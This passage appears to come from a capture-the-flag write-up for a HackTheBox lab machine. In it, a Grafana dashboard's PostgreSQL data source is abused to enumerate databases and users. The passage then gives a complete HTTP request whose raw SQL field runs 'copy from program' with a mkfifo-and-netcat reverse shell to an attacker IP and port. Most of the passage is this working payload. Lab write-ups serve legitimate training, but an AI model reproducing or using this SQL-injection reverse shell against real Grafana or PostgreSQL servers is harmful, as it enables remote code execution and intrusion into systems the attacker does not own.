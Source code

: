 Response: 

```
PostgreSQL 14.8 (Ubuntu 14.8-0ubuntu0.22.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, 64-bit"

```

so we can now talk with postgresql server!!!


with this `SELECT datname FROM pg_database;` i was able to check all dbs!

- postgres
- moon_namesdb
- template1
- template2 


with this `SELECT * from pg_user;` check all the users!

- postgres
- grafana_viewer


but no password was found...




## Reverse Shell

```http
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d&from=now-6h&to=now
content-type: application/json
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
x-grafana-org-id: 1
x-panel-id: 24
x-plugin-id: postgres
Origin: http://kiosk.jupiter.htb
Content-Length: 416
Connection: close
Cookie: redirect_to=%2Fdashboards%3Fstarred
DNT: 1
Sec-GPC: 1

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"copy demo from program 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.47 4444 >/tmp/f'","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":940}],"range":{"from":"2023-06-05T01:20:10.129Z","to":"2023-06-05T07:20:10.129Z","raw":{"from":"now-6h","to":"now"}},"from":"1685928010129","to":"1685949610129"}

```
